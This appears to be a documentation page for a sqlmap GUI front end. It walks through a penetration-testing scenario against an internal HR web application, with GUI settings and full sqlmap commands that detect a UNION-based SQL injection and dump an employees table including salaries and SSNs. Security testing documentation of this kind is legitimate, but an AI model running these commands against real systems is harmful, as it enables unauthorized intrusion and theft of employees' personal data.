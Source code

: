 # Real-World Penetration Testing Scenarios

This document provides practical examples of SQL injection testing scenarios encountered during real penetration testing engagements, with corresponding GUI configurations.

## 🏢 Corporate Web Application Testing

### Scenario 1: Legacy HR Management System
**Target:** Internal HR system with employee database
**Vulnerability:** Classic UNION-based injection in employee search

**Discovery Phase:**
```
Target Tab:
├── URL: http://hr.internal.company.com/employee.php?search=john
├── Method: GET
├── Cookie: session_id=authenticated_hr_user
└── User Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36

Detection Tab:
├── Level: 3
├── Risk: 2
├── Techniques: BEU
├── Time Delay: 2
└── Retries: 2

Injection Tab:
├── Testable Parameters: search
├── DBMS: MySQL
├── Union Columns: 5
└── Union Test All: ✓
```

**Exploitation Phase:**
```
Enumeration Tab:
├── Database: hr_database
├── Table: employees
├── Columns: emp_id,name,salary,ssn,email
├── Dump Table: ✓
└── Where: salary > 100000

General Tab:
├── Output Directory: ./hr_data/
├── CSV Format: ✓
├── Verbose Level: 2
└── Log File: ./hr_data/extraction.log
```

**Generated Commands:**
```bash
# Initial detection
sqlmap -u "http://hr.internal.company.com/employee.php?search=john" --cookie="session_id=authenticated_hr_user" --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36" --level=3 --risk=2 --technique=BEU --time-sec=2 --retries=2 -p search --dbms=mysql --union-cols=5 --union-test-all --batch

# Data extraction
sqlmap -u "http://hr.internal.company.com/employee.php?search=john" --cookie="session_id=authenticated_hr_user" -D hr_database -T employees --columns --dump --where="salary > 100000" --output-dir=./hr_data/ --csv -v 2 --log-file=./hr_data/extraction.log --batch
```
